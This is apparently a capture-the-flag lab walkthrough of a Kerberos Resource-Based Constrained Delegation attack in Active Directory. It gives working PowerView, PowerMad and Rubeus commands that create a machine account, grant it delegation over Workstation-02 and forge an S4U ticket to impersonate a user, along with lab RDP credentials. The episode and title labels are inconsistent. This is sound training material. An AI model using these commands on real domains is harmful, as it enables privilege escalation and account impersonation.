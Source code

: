 ```yaml
---
date: 2025-03-19
categories: [CTF, ImmersiveLabs]
title: "IML - Kerberos: Ep.11 – Active Directory Certificate Services"
tags: ['kerberos', 'powershell', 'privilege escalation', 'rce']

description: "Kerberos Ep.11 – Resource-Based Constrained Delegation (RBCD) - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Kerberos: Ep.12 – Active Directory Certificate Services
IML - Kerberos: Ep.11 – Resource-Based Constrained Delegation (RBCD)


![image1](../resources/acf4b1efdfed40ba82617d29aaac9a3c.png)

- RDP:

```bash
xfreerdp /v:10.102.81.46 /u:s.villanelle /p:Summ3r2021! /d:krbtown +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```

![image2](../resources/59f728b2e31143279fb57ff6abe435e4.png)


![image3](../resources/00add91b42de458cb58e3d5d8fd2c494.png)

- Enumeration:

```powershell
. .\PowerView.ps1

get-domainuser s.villanelle -properties objectsid | select -exp objectsid

```

![image4](../resources/9fce19984a314375ad5e4ac1279d4a2c.png)

- Then, use the SID to enumerate what rights you have over Workstation-02 by running the command:

```bash
get-domainobjectacl workstation-02 | ?{$_.SecurityIdentifier -eq "[USER_SID]"}

get-domainobjectacl workstation-02 | ?{$_.SecurityIdentifier -eq "S-1-5-21-2984655098-284417223-3543700247-1121"}

```

![image5](../resources/d345e612b4484a6fa8e077489e00020c.png)


![image6](../resources/1486aeb35ae747a49a89028b530b5328.png)


![image7](../resources/3825e0e3c43b4055af8892ecada67b4d.png)


![image8](../resources/2e5c18f4823445d0bcc084376334c4de.png)

- Open Elevated Powershell:

```bash
. .\Powerview.ps1

Get-DomainObject -Identity "dc=krbtown,dc=local" -Domain krbtown.local

```

![image9](../resources/e2cb819759a4414e89e754b176536469.png)


![image10](../resources/33a1927dd54646c9b9b040094cdca15b.png)


![image11](../resources/a9d5c91b7e574921a84d4ce2944b53bf.png)


![image12](../resources/6f0f3726c11a4c39b07f2bb2d69f445b.png)


![image13](../resources/d847b9c6c0104d779bdacc1f4aed11cb.png)

- Open Elevated Powershell

```bash
. .\Powerview.ps1

Get-NetComputer Workstation-02 | Select-Object -Property name, msDS-AllowedToActOnBehalfOfOtherIdentity

```

![image14](../resources/6ef8a7da86574f3e8abf78ffcc3ac025.png)


![image15](../resources/c85c465d4bb84a69a6930dfb6fb76267.png)

- Open Elevated Powershell:

```bash
. ./PowerMad.ps1

```
New-MachineAccount -MachineAccount \<ANY_MACHINE_NAME\> -Password \$(ConvertTo-SecureString '\<RANDOM_PASSWORD\>' -AsPlainText -Force) -Verbose

**Give the machine a name of your choice and a password that meets the password policy**

```bash
New-MachineAccount -MachineAccount terminator -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force) -Verbose

```

![image16](../resources/4dff6fa14feb4fe097312d863f93126c.png)


![image17](../resources/b79ee794a7124ad5a9eda5f3ddf1e9cd.png)

Set-ADComputer workstation-02 -PrincipalsAllowedToDelegateToAccount \<NEW_MACHINE_NAME\>\$

```bash
Set-ADComputer workstation-02 -PrincipalsAllowedToDelegateToAccount terminator$

```

![image18](../resources/bec307712f264d0dbebbb9bd49581ebe.png)

- Open Elevated Powershell:

```bash
. .\Powerview.ps1

Get-ADComputer workstation-02 -Properties PrincipalsAllowedToDelegateToAccount

```

![image19](../resources/b30d43b19de345279141f03ba543e019.png)


![image20](../resources/cb2f4b40c2bf4a88bd70115e9afc2e0a.png)


![image21](../resources/dd5d27563c1c482da276e7111c53c94f.png)

- Open Elevated Powershell:

.\Rubeus.exe hash /password:\<PASSWORD_OF_NEW_MACHINE\> /user:\<NEW_MACHINE_USERNAME\>\$ /domain:krbtown.local

```bash
.\Rubeus.exe hash /password:Password123 /user:terminator$ /domain:krbtown.local

```

![image22](../resources/47e81e1cbd1d473c8b9cecb6bd34144c.png)


![image23](../resources/d3dcf7d691724bde8927c93f60381887.png)

rubeus s4u /user:\<NEW_MACHINE_USERNAME\>\$ /rc4:\<NEW_MACHINE_HASH\> /impersonateuser:a.belridge /domain:krbtown.local /msdsspn:cifs/workstation-02.krbtown.local /ptt

```bash
.\Rubeus.exe s4u /user:terminator$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:a.belridge /domain:krbtown.local /msdsspn:cifs/workstation-02.krbtown.local /ptt

```

![image24](../resources/6478b76b0a284ac9890acd4e0938be08.png)


![image25](../resources/b3ebf0d4a70641e4b5cb7cbd832fd8bf.png)

- Check with: klist

![image26](../resources/20805bf54d6747448d1f41b316f581cd.png)


![image27](../resources/040b0400cc41472fb844f81364478e73.png)


![image28](../resources/00e48279ffef426d8baf930a3a5d04a3.png)


![image29](../resources/ca60ab9335384cc7879ce72eff5f6a37.png)
